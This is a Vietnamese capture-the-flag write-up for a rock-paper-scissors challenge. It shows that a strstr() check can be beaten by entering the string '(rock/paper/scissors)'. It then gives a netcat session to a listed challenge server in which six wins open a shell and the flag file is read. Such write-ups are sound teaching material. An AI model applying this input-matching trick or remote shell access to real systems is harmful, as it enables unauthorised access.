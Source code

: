 Đọc source code ta có thấy chương trình sử dụng `if (strstr(player_turn, loses[computer_turn]))` hàm strstr() để kiểm tra chuỗi người dùng nhập vào `player_turn` có 
trong chuỗi `loses[computer_turn]` máy tính thua không.
Nếu có sẽ trả về `true` từ đó ta có 1 lần chiến thắng.
```
if (strstr(player_turn, loses[computer_turn])) {
    puts("You win! Play again?");
    return true;
```
Tận dụng lỗi này ta sẽ nhập `{"rock", "paper", "scissors"}` 6 lần để có thể chiến thắng.
```
 if (wins >= 6) {
        puts("Congrats!!!");
        system("/bin/sh");
	
      }
```
Chúng ta sẽ connect đến `netcat` để thực hiện 6 lần nhập sau đó khi chương trình gọi `/bin/sh` ta sẽ lấy được `shell`.
```
halston in ~ λ nc 174.138.21.217 3138
Welcome challenger to the game of Rock, Paper, Scissors
For anyone that beats me 5 times in a row, I will offer up a flag I found
Are you ready?
Type '1' to play a game
Type '2' to exit the program
1


Please make your selection (rock/paper/scissors):
(rock/paper/scissors)
You played: (rock/paper/scissors)
The computer played: rock
You win! Play again?
Type '1' to play a game
Type '2' to exit the program
1


Please make your selection (rock/paper/scissors):
(rock/paper/scissors)
You played: (rock/paper/scissors)
The computer played: rock
You win! Play again?
Type '1' to play a game
Type '2' to exit the program
1


Please make your selection (rock/paper/scissors):
(rock/paper/scissors)
You played: (rock/paper/scissors)
The computer played: rock
You win! Play again?
Type '1' to play a game
Type '2' to exit the program
1


Please make your selection (rock/paper/scissors):
(rock/paper/scissors)
You played: (rock/paper/scissors)
The computer played: scissors
You win! Play again?
Type '1' to play a game
Type '2' to exit the program
1


Please make your selection (rock/paper/scissors):
(rock/paper/scissors)
You played: (rock/paper/scissors)
The computer played: paper
You win! Play again?
Type '1' to play a game
Type '2' to exit the program
1


Please make your selection (rock/paper/scissors):
(rock/paper/scissors)
You played: (rock/paper/scissors)
The computer played: scissors
You win! Play again?
Congrats!!!
ls
bin
chall
dev
flag.txt
ld.so
lib
lib32
lib64
libc.so.6
cat flag.xtt
cat: flag.xtt: No such file or directory
cat flag.txt
ISPCTF{d0nt_m4k3_7h3_l091c4l_m1s74k3}
```
